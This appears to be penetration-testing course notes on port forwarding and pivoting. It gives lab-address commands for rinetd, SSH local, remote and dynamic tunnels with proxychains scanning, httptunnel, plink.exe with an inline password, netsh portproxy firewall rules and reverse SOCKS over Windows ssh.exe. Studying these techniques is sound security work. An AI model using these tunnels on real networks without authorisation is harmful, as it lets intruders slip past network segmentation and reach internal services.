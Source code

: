 ### Port Forwarding
###### RINETD
```
cat /etc/rinetd.conf
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 142.0.128.189  22
...
service rinetd start
```
###### SSH local port forwarding
bind port 445 on our local machine (0.0.0.0:445) from ssh protocol to port 445 on the Windows Server (192.168.1.110:445) and do this through a session to our original Linux target, logging in as student (student@10.11.0.128)
```
sudo ssh -N -L 0.0.0.0(src 127.0.0.1):445:192.168.1.110(dst):445 student@10.11.0.128(relay)
```
###### ssh remote port forwarding
```
ssh -N -R 192.168.163.52(src):5555(established listening state on this port):127.0.0.1(dst):12345 student@192.168.163.52(src credential) -p 2222
```
###### SSH Dynamic Port Forwarding
After bind proxychains to local 8080 port, through proxychains all traffic can be forwarded to all ports of remote machine, accessing 127.0.0.1 is like accessing remote machine
```
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
cat /etc/proxychains.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 8080 
sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110(another internal network of 10.11.0.128)
```
###### httptunnel
```
sudo apt install httptunnel
hts --forward-port localhost:8888 1234(listening on)
htc --forward-port 8080(listening on) 10.11.0.128:1234
```
### Windows Port forwarding
###### PLINK.exe
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234(dst):127.0.0.1:3306(source) 10.11.0.4
```
###### Netsh
>for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```
###### ssh.exe
```
linux: 
1. sudo systemctl start ssh
windows: 
1. where ssh
2. ssh.exe -V (the version of OpenSSH bundled with Windows needs to be higher than 7.6, then we can use it for remote dynamic port forwarding)
3. ssh -N -R 9998 kali@192.168.118.4
linux: 
1. ss -ntplu(check socks5 9998 port state)
2. tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
3. proxychains command
```
